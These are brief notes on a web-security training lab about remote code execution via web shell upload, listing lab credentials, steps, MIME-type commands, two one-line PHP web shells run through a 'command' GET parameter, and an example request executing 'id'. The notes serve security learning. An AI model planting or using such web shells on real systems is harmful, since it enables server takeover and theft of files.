 # Lab: Remote code execution via web shell upload

## End goal: upload a basic PHP web shell and get the contents of the file /home/carlos/secret

Credentials: wiener:peter

1. Learn site functionality

2. Upload avatar 

3. Detect endpoint 

4. Creat payload in php

5. Upload it and get content of secret file

xdg-mime built-in utility to detetct MIME-type

xdg-mime query filetype some_file.ext

file --mime-type some_file.ext

-------------------------------------------
Additional shell

```php
<?php echo system($_GET['command']); ?>

<?php passthru($_GET['command'])>
```


HTTP-request
GET /example/exploit.php?command=id HTTP/1.1

